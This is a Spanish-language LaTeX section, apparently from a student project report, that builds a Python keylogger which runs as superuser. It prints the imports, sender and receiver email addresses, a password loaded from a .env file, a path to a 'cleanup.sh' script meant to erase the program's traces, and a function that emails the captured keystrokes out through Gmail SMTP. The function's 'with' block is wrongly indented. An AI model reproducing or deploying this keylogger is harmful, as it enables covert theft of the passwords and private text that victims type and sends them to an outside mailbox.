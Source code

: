 \section{Desarrollo}
Para esta sección realizamos un keylogger de software que corre bajo terminal en modo de súper usuario ya que las bibliotecas que usamos así nos lo pide. En esta parte iremos explicando las partes que conforman el código.

Lo primero que analizaremos serán las importaciones del programa.

\begin{lstlisting}[language = Python, caption = importaciones del archivo k-log.py]
import keyboard
import os
from dotenv import load_dotenv
from email.message import EmailMessage
import ssl
import smtplib
import subprocess

bash_command = "./cleanup.sh"

load_dotenv()

# Variables globales
log = ""
email_sender = "killerhaans@gmail.com"
password = os.getenv("PASSWORD")
email_reciver = "jesuslopez@ciencias.unam.mx"
\end{lstlisting}

Aquí de lo mas importante que hay que realizar ya que para poder usar smtplib hay que realizar los pasos que muestra el vídeo \cite{youtube2} para poder tener la contraseña de la cuenta que va a enviar el correo ya que por seguridad google bloquea todo intento de usar el inicio de sesión si no es por medio de esas contraseñas especiales para aplicaciones y por otro lado y para no poner la contraseña directo en el archivo la ponemos como variable de entorno en un archivo .env pero antes necesitaremos instalar dotenv con el siguiente comando.

\begin{lstlisting}[lenguage = bash, caption = codigo para instalar dotenv]
    $ pip install python-dotenv
\end{lstlisting}

Algo importante es que la variable global log es donde iremos guardando las cadenas de lo que se ha escrito. la variable bash\_command es la que lleva la ruta del script para limpiar los rastros del programa.

Ahora veremos la función que envía los correos.

\begin{lstlisting}[language = Python, caption = funcion send\_email del archivo k-log.py]
# Funcion para el envio de correo
def send_email(log):
    msg = EmailMessage()
    msg["From"] = email_sender
    msg["To"] = email_reciver
    msg["Subject"] = "Keylogger"
    msg.set_content(log)

    context = ssl.create_default_context()

        with smtplib.SMTP_SSL("smtp.gmail.com", 465, context=context) as server:
            server.login(email_sender, password)
            server.send_message(msg)

\end{lstlisting}

